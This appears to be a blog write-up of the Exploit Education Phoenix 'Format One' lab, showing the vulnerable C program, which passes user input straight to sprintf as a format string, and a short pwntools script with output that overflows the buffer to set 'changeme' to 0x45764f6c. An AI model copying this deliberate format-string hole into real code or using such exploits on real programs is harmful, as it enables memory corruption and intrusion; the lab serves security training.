 ```yaml
---
title: "Phoenix - Format One"
classes: wide
header:
  teaser: /assets/images/binary-exploitation/exploit-education/exploit-education.png
ribbon: red
description: "This level is the same as the last one except that we need set **changeme** to a specific value **0x45764f6c** instead of a random value..."
categories:
  - Binary Exploitation
---
```



```c
#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char dest[32];
    volatile int changeme;
  } locals;
  char buffer[16];

  printf("%s\n", BANNER);

  if (fgets(buffer, sizeof(buffer) - 1, stdin) == NULL) {
    errx(1, "Unable to get buffer");
  }
  buffer[15] = 0;

  locals.changeme = 0;

  sprintf(locals.dest, buffer);

  if (locals.changeme != 0x45764f6c) {
    printf("Uh oh, 'changeme' is not the magic value, it is 0x%08x\n",
        locals.changeme);
  } else {
    puts("Well done, the 'changeme' variable has been changed correctly!");
  }

  exit(0);
}
```

This level is the same as the last one except that we need set **changeme** to a specific value **0x45764f6c** instead of a random value.

# Solution:

```python
#solve.py

from pwn import *

buff = ""
buff += '%32x'
buff += p64(0x45764f6c)

print(buff)
```

```
$ python solve.py | /opt/phoenix/amd64/format-one
Welcome to phoenix/format-one, brought to you by https://exploit.education
Well done, the 'changeme' variable has been changed correctly!
```

